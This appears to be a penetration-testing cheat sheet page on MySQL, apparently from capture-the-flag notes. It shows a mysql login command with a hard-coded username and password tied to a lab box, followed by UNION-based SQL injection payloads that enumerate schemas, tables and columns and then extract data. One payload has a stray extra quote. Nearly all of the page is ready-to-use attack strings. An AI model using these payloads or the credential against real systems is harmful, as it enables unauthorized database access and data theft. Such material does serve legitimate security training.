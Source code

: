 ### CLI Tools

{% tabs %}
{% tab title="Linux" %}
```bash
mysql -h <target-ip> -u lewis -pP4ntherg0t1n5r3c0n##
```

For an example of `mysql` usage see [Devvortex](../../../../boxes/easy/devvortex.md).
{% endtab %}
{% endtabs %}

## Attacks

### SQLi

<mark style="background-color:yellow;">Enumeration</mark> statements:

{% hint style="danger" %}
On the below commands, the comment at the end includes a space: `--` ! The `#` symbol can also be used.
{% endhint %}

{% tabs %}
{% tab title="DBs" %}
```bash
a' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- 
```
{% endtab %}

{% tab title="Current DB" %}
```bash
a' UNION select 1,database(),2,3-- 
```
{% endtab %}

{% tab title="Tables" %}
{% code overflow="wrap" %}
```bash
a' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='db1'-- 
```
{% endcode %}
{% endtab %}

{% tab title="Columns" %}
{% code overflow="wrap" %}
```bash
a' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='table1'-- 
```
{% endcode %}
{% endtab %}

{% tab title="Data" %}
```bash
a' ' UNION select 1, col1, col2, 4 from db1.table1-- 
```
{% endtab %}
{% endtabs %}
